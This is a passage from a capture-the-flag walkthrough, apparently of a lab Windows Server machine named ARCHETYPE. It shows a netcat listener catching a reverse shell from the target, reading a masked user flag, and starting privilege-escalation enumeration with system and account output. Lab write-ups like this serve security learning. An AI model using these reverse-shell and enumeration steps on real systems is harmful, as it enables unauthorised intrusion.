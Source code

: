 In that window, we can now run
```
$ sudo rlwrap nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.10.14.34] from (UNKNOWN) [10.10.10.27] 49683
whoami
archetype\sql_svc
more \users\sql_svc\desktop\user.txt
3e7b************************21a3
```

Now we have the user flag!  But as far as I can tell, `archetype\sql_svc` is an ordinary user.  We need to escalate privileges.  I follow a good article [here](https://github.com/frizb/Windows-Privilege-Escalation) on privilege escalation in Windows.  Here is some basic data about the user and the system:
```powershell
whoami
archetype\sql_svc
net user

User accounts for \\ARCHETYPE

-------------------------------------------------------------------------------
Administrator            DefaultAccount           Guest
sql_svc                  WDAGUtilityAccount
The command completed successfully.

systeminfo

Host Name:                 ARCHETYPE
OS Name:                   Microsoft Windows Server 2019 Standard
OS Version:                10.0.17763 N/A Build 17763
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:
Product ID:                00429-00521-62775-AA442
Original Install Date:     1/19/2020, 11:39:36 PM
System Boot Time:          3/24/2021, 8:19:01 PM
System Manufacturer:       VMware, Inc.
System Model:              VMware7,1
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: AMD64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
BIOS Version:              VMware, Inc. VMW71.00V.13989454.B64.1906190538, 6/19/2019
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume2
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC-08:00) Pacific Time (US & Canada)
Total Physical Memory:     2,047 MB
Available Physical Memory: 983 MB
Virtual Memory: Max Size:  2,431 MB
Virtual Memory: Available: 1,328 MB
Virtual Memory: In Use:    1,103 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    WORKGROUP
Logon Server:              N/A
Hotfix(s):                 2 Hotfix(s) Installed.
                           [01]: KB4532947
                           [02]: KB4464455
Network Card(s):           1 NIC(s) Installed.
                           [01]: vmxnet3 Ethernet Adapter
```